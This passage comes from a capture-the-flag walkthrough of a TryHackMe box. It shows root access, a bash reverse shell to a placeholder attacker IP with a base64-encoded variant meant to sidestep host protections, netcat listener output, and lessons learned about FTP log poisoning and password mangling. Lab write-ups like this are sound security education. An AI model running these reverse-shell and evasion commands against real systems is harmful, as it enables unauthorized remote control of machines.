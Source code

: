 ```
adrian@brute:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
THM{C-------------------------3}
```

### Method 2 - Reverse Shell
Alternatively, we can spawn a reverse shell on our attacking machine by injecting the relevant reverse shell code. I chose to use a base64 encoded command, as it can potentially sidestep host-based protections and other pitfalls with little intial time investment. 

**Bash reverse shell**
```
/bin/bash -i >& /dev/tcp/<attacker-ip>/9111 0>&1
```

**Base64 encoded/decoded bash reverse shell**
```
`echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL215dGhtaXAvOTExMSAwPiYx+JjE=" | base64 -d | bash`
```

```
$ nc -lvnp 9111
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9111
Ncat: Listening on 0.0.0.0:9111
Ncat: Connection from <target-ip>.
Ncat: Connection from <target-ip>:59158.
bash: cannot set terminal process group (3423): Inappropriate ioctl for device
bash: no job control in this shell
root@brute:~# whoami
whoami
root
root@brute:~# cat /root/root.txt
cat /root/root.txt
THM{C-------------------------3}
```

## Lessons Learned
This was a really enjoyable box, with several opportunities to practice and refine my methodology.

* **FTP log poisoning** - while we didn't have to hunt down a service log file via LFI or another web-app-based vector, this box helped me to expand my understanding and methodology. This was one of the first log poisoning vectors I have encountered related to an FTP service, instead of Apache, as is frequently the case.
* **Password mangling with Rules (John)** - this box provided a great refresher on the generation of (password) wordlists via Hashcat/John/etc. rulesets.  
* **Encoding** and **"best practices"** - After completing the box, I went back to check if the reverse shell code would execute absent base64 encoding. I couldn't get it to. Thus, this box provided solid reinforcement of best practices in my developing methodology, as encoding the code "cost" me little (in terms of time) but yielded a successful privilege escalation.